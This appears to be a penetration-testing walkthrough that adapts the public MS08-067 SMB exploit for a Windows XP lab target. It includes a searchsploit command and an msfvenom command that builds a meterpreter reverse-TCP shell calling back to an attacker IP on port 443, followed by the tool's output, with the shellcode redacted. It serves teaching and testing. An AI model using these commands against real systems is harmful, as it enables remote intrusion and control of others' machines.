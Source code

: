Combing through the code this looks like a mature exploit, it is a python rework of [7132.py](https://www.exploit-db.com/exploits/7132/) also on the list. 

I run a mirror copy to my current directory:

``` bash
searchsploit 40279.py -m
```

When we attempt a re-write of a manual exploit we need to have a good idea that the exploit is compatible with our target and that there are no errors. Glancing through this it looks like the author has made consession for different OS versions and languages. As our nmap script is favoring XP it looks like option 1 is the good option on line 204:

``` python
print 'Example: MS08_067.py 192.168.1.1 1 for Windows XP SP0/SP1 Universal\n'
```

Lines 79 to 179 appears to be the exploit code for a Buffer Overflow against the SMB service. At this stage we don't care about that. If we make the assumption that the exploit works, we only care about triggering malicious code to work with our setup. This code is executed in the shellcode variable.

line 45 explains how this is generated with the msfvenom tool:

``` python
#msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.77 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```
 
The output of this is said to be 380 bytes as per line 43 and this doesn't include the required nop slide to trigger. 

But what does the tool actually do? In this case it generates a meterpreter reverse tcp shell payload for Windows. The reverse shell is sent to host 192.168.30.77 on port 443. The author has specified a thread EXITFUNC which allows the payload to execute the shellcode in a sub-thread helping the service recover should we exit. the -b flag highlights the bad characters we want to avoid in the exploit buffer and we specify a python format.

A thing to be aware of is that a lot of public exploit code has errors in it, some of it will even brick your machine because people are bad that way. So lets check the payload for ourselves by running the msfvenom command above:

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 388 (iteration=0)
x86/call4_dword_xor chosen with final size 388
Payload size: 388 bytes
Final size of python file: 1862 bytes

# payload redacted
```
